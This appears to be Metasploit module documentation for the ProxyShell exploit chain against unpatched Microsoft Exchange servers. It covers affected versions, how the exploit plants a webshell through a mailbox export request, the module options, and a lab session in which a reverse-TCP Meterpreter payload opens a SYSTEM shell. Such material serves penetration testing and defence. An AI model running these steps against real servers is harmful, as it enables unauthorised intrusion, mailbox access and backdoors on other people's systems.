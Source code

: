 ## Vulnerable Application

This module exploits a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.8
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.10

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

### Exploit Internals

At a high level, the steps the exploit takes are as follows:

1. Build a Common Access Token corresponding to a user with the "Mailbox Import Export" role
    1. If an email address is specified using the `EMAIL` datastore option, the exploit will attempt to use the owner
    1. If no email address is specified
        1. The exploit will leverage the SSRF to issue a request to EWS and enumerate the email addresses
            * This technique was taken from [dmassland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py)
        1. The module will store the enumerated email addresses in a CSV file
        1. Each of the email addresses will be checked for the necessary role
    1. A common access token will be built using the verified user's SID
        * Email addresses are mapped to SIDs using a request to autodiscover and MAPI
1. A draft email is saved to the identified user's mailbox containing an encoded webshell embedded within an attachment
1. The `New-MailboxExportRequest` cmdlet is used to export the attachment and write the webshell to an accessible location
1. The exploit waits for the webshell to be written and uses it to execute OS commands
1. The webshell*, export request and draft email are all removed
    * *The webshell can only be remove automatically if the selected payload establishes a sessions (such as Meterpreter)


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_proxyshell_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `run`

## Options

### EMAIL

A known email address for this organization. If specified, the user who owns the mailbox must either have the "Mailbox
Import Export" role already or have the necessary permissions to assign it to themselves. This would typically be some
sort of an administrative user. If this option is left blank, the module will enumerate all valid email addresses and
check each one for the necessary privileges.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

### MaxBackendRetries

The maximum number of times to retry for targeting the backend server with the SSRF. This is useful in environments
where a Data Availability Group (DAG) is in place and causes requests to be sent to a random backend server.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > check
[+] 192.168.159.42:443 - The target is vulnerable.
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Enumerating valid email addresses and searching for one that either has the 'Mailbox Import Export' role or can self-assign it
[*] Enumerated 2 email addresses
[*] Saved mailbox and email address data to: /home/smcintyre/.msf4/loot/20210827174927_default_192.168.159.42_ad.exchange.mail_205456.txt
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Saving a draft email with subject 'ie1Y1uNnLfxL' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:7149) at 2021-08-27 17:49:40 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064
